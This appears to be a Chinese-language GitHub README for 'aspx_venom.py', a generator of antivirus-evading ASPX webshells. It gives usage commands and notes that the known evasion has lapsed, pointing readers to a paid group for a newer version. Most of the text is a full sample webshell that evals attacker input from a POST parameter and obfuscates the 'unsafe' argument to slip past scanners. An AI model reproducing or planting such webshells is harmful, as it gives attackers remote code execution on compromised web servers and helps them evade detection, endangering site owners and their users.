 
# 2019.8.14 已知免杀已失效，获取星球内部版请戳

https://yzddmr6.tk/posts/webshell-venom-notice/

## 使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var UdIw='hVYFCrBEjfzQsUkdgOReSAKXntawHGiWPvTpqJxmLZbylcuMNDIo';
var YJxe=Request.Form("yzddmr6");
var zIUt=UdIw(13)+UdIw(24)+UdIw(12)+UdIw(21)+UdIw(3)+UdIw(7);
eval(YJxe,zIUt);
%>
```
